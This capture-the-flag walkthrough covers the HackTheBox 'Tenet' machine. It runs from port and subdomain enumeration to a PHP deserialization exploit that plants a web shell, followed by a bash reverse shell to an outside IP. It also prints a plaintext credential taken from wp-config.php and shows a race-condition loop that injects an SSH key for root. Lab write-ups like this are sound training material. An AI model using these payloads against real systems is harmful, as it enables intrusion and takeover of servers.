

# [Tenet](https://app.hackthebox.com/machines/tenet)

```bash
nmap -p- --min-rate 10000 10.10.10.223 -Pn
```


After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80 10.10.10.223 -Pn
```


While browsing `Wordpress` website, I see `tenet.htb` domain.


Let's add this into `/etc/hosts` file for resolving purposes.


Let's do `Subdomain Enumeration` via `wfuzz` command.
```bash
wfuzz -c -H "Host: FUZZ.tenet.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.10.223 --hh 10918
```


I add `www.tenet.htb` domain name also into `/etc/hosts` file.


Our `tenet.htb` application is like below.


Let's do `Directory Enumeration` for `tenet.htb` web application.
```bash
gobuster dir -u http://tenet.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40 -x php,txt,bak
```


Now, it's time to enumerate web application. I find a comment for one blog says information leakage.


Let's look at `sator.php` and `sator.php.bak` files on `tenet.htb`, but can't find anything.

I found these files by resolving ip address itself.


Let's look at old `sator.php` file.


While I browse `sator.php` file, it says such comments on web application.


From `sator.php.bak` file, I see that there's `serialized` keyword is used, it means there can be `Insecure Deserialization` attack.


Let's write webshell code for `DatabaseExport` class.
```php
<?php

class DatabaseExport {

    public $user_file = "dr4ks.php";
    public $data = '<?php system($_REQUEST["cmd"]); ?>';

}

$sploit = new DatabaseExport;
echo serialize($sploit);
?>
```


While I run this code `php dr4ks.php`, it gives me such output.


Let's upload our malicious file into web application via `curl` command and we should make `URL Encoding`.

```bash
curl -G http://10.10.10.223/sator.php --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"dr4ks.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}'
```


Let's check that our `webshell` is located or not by browsing.
```bash
curl http://10.10.10.223/dr4ks.php?cmd=id
```


It's time to add reverse shell payload into command section.

```bash
curl -X GET http://10.10.10.223/dr4ks.php -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.18/1337 0>&1"'
```


I got reverse shell from port `1337`.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg 
export TERM=xterm
export SHELL=bash
```




I find `wp-config.php` file on `/var/www/html/wordpress` directory which contains sensitive credentials.


neil: Opera2112


Let's connect into machine via `ssh`.

user.txt


While I look at privileges of this user via `sudo -l` command, I see `enableSSH.sh` script.


I see `addKey()` function is located here, I need to abuse this for entering my public key (id_rsa.pub) file.


Let's inject our pubcliy (id_rsa.pub) file as below to make `Race Condition` vulnerability.
```bash
while true; do for fn in /tmp/ssh-*; do echo "{public_key}" > $fn; done; done
```


Note: But, we need to run `sudo enableSSH.sh` this on another  terminal due to abusing `Race Condition` vulnerability.


From above image, I need to see `Error in creating key file!` word after this I can login into machine for `root` account by using my private key (id_rsa) file.


root.txt


